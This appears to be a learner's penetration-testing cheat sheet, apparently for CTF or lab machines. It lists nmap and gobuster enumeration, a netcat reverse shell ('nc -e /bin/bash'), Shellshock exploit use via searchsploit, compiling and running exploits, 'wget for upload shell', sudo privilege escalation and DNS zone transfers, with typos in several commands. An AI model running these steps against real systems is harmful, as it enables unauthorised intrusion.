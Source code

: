 # don-t-forget
For us to easily remember the things we forgot
netcad 
nc -nvlp port for listening ports wich is we wanna use that
next type id next ls or pwd
nc -e /bin/bash host ip and port when we enter system 
nmap:
nmap -sS -A -v -p --min-rate 99999 host 
nmap -p- -sV port scanning ant its version
nmap -sV -sC -v From your scans, what version is FTP running on the target?
nmap -sS -p- -Pn --min-rate host ip for            to find all open ports

when the site open u must use /robots.txt
/cgi-bin/
/cgi-bin/user.sh

gobuster:
gobuster dir -u http://host -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt -x .ph,.txt,.conf,.doc,.sh

nikto -h host

searcsploit (shell shock) -m
vim (payload extension)

if u have a payload for ex
python 34900.py rhost=ip(host) lhost=ip(host) payload=reverse(or bind)

we can compile exploit wirth gcc
gcc -o exploit 44298.c 
and ls 


python -m SimpleHTTPServer 80

chmod +x exploit for giving a permission(x using execute)

msfconsole
set rpath /cgi-bin/user.sh

sudo -l say to us u can run this commands



wget for upload shell

sudo -u scriptmanager /bib/bash this means u get a scriptmanager rank

next time ls -la shows to us permission  


dnszone using:
dig -t NS(name server)
dig axfr @nameserver nameserver

nslookup for finding nameserver

check the command injection

 
 
 ctrl u (for inspect source)
